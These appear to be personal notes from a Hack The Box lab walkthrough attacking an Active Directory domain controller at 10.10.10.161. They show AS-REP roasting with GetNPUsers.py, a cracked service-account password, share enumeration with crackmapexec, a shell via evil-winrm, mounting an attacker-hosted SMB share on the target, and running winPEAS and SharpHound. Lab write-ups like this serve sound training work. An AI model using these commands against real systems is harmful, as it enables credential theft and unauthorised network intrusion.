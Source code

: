 To get the hash for that service account:
```
GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat
```
![](attachment/74636f14678bcebd467b114dacb1216f.png)
Using hashcat found:
svc-alfresco: `s3rvice`
To check shares:
```
crackmapexec smb 10.10.10.161 -u svc-alfresco -p s3rvice --shares
```
![](attachment/c3ff6a2154b9aa365333d2715ad7b37f.png)
### TODO:
Now we have access to SYSVOL so trying to extract password from it

## WinRM(5985)
using evil-winrm to login to the svc-alfresco account:
`evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161`
We get a user shell:
![](attachment/0f136b717181c13a9fe5fbeef98a147e.png)
Now host an smb server:
- Attacker:
	- `sudo impacket-smbserver aditya $(pwd) -smb2support`
- Target:
	- ` $pass = convertto-securestring 'aditya' -AsPlainText -Force`
	- `$cred = New-Object System.Management.Automation.PSCredential{'aditya',$pass}`
	- `New-PSDrive -Name aditya -PSProvide FileSystem -Credential $cred -Root \\10.10.14.22\aditya`
	- `cd aditya:`
Running winpeas:
`.\winPEASObfuscated.exe'
Now using sharphound to collect data:
`.\SharpHound.exe -c all`